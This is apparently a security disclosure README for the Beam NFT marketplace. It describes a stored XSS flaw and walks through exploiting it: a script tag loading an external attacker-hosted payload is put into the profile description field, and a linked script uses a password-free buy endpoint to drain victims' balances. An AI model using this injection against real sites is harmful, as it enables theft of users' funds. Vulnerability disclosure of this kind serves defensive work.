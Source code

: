 <div align="center">
  <img title="" src="images/prismsec.png" alt="PrismSec logo" data-align="center" width="400">
  </br>

<p><i>Here we present the beamnft.art marketplace vulnerability and an example exploit.</i></p>
  <hr>
</div>

# Vulnerability - Stored XSS

[The Beam NFT Marketplace](https://beamnft.art/) is vulnerable to a [XSS attack](https://owasp.org/www-community/attacks/xss/), which allows malicious scripts to be embedded into the marketplace.

> Click the XSS link above to read about what an XSS attack is, we wont go into that here.

## How to execute

Before injecting the malicious payload, you must first download and install the [Beam Web Wallet](https://chrome.google.com/webstore/detail/beam-web-wallet/ilhaljfiglknggcoegeknjghdgampffk), after this head over to [The Beam NFT Marketplace](https://beamnft.art/) and get signed up!

Once signed up, complete your profile, an attacker would want to make this look as presentable and inviting as possible. The description field is where were going to inject our malicious javascript!

## Injection

Within the description field, simply enter the following piece of javascript

```
<script src="https://<yourcdn>.net/nftengine.js"></script>
```

Typically a threat actor may use a CDN to to host the malicious payload, the above code will not work, the payload will load from an external source (source your own cdn and use correct url)

<div align="center">
  <img title="" src="images/description.png" alt="PrismSec logo" data-align="center">
  </br>
</div>

# Exhausting the users balance

Take a look at [nftengine.js](https://github.com/PRISM-Privacy/beamnft-audit/blob/main/nft-engine.js), this is the malicious payload that allows the exhausting and stealing of users funds.

## How it works

The malicious script takes advantage of the buy NFT api endpoint which doesnt require the users password, this allows the malicious actor to buy his own NFTs without the users knowledge in an iterative fashion until the users balance is exhausted!

> The following image shows the required parameters to buy an NFT (no password required), the image after shows the required parameters to withdraw (requires password)

<div align="center">
  <img title="" src="images/buynftendpoint.png" alt="PrismSec logo" data-align="center">
</div>

<div align="center">
  <img title="" src="images/withdrawendpoint.png" alt="PrismSec logo" data-align="center">
</div>
